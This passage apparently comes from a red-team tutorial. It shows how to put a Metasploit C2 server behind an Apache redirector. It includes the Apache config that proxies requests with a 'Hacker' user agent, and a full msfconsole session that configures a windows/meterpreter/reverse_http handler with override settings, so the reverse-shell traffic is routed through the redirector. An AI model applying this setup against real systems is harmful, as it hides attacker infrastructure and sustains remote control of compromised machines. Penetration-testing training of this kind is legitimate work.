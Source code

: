 This will give us our full config file that will look like so:
```shell
kali@kali$ cat /etc/apache2/sites-available/000-default.conf | grep -v '#' 

<VirtualHost *:80> 
	ServerAdmin webmaster@localhost 
	DocumentRoot /var/www/html 
	
	RewriteEngine On 
	RewriteCond %{HTTP_USER_AGENT} "^Hacker$" 
	ProxyPass "/" "http://localhost:8080/" 
	
	<Directory> 
		AllowOverride All 
	</Directory>
	
	ErrorLog ${APACHE_LOG_DIR}/error.log 
	CustomLog ${APACHE_LOG_DIR}/access.log combined 
</VirtualHost>
```

Finally, we can just set up Meterpreter. We set our `LHOST` to the incoming interface that we are expecting a connection from, in this case `127.0.0.1`, in a practical use, this will be our public IP address. And the `LPORT` whatever we set up in the forward request in Apache. This two options will also need to be duplicated for `ReverseListenerBindAddress` and `ReverseListenerBindPort`.
Next, we need to set up `OverrideLHOST`, this value will be our redirector's IP or Domain name. After that, we need to set the `OverrideLPORT`, this will be the port that the HTTP/HTTPS is running on, on our Redirector. Lastly, we must set the `OverrideRequestHost` to true. This will make it so Meterpreter responds with the `OverrideHost` information, so all queries go through the Redirector and not our C2 server
```shell
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http 
payload => windows/meterpreter/reverse_http 
msf6 exploit(multi/handler) > set LHOST 127.0.0.1 
LHOST => 127.0.0.1 
msf6 exploit(multi/handler) > set LPORT 8080 
LPORT => 8080 
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1 
ReverseListenerBindAddress => 127.0.0.1 
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080 
ReverseListenerBindPort => 8080 
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.12.34
OverrideLHOST => 192.168.12.34 
msf6 exploit(multi/handler) > set OverrideLPORT 80 
OverrideLPORT => 80
msf6 exploit(multi/handler) > set HttpUserAgent Hacker
HttpUserAgent => Hacker
msf6 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true 
msf6 exploit(multi/handler) > run
```
Once this is all done, running the Meterpreter Reverse Shell should now proxy all communications through our Redirector.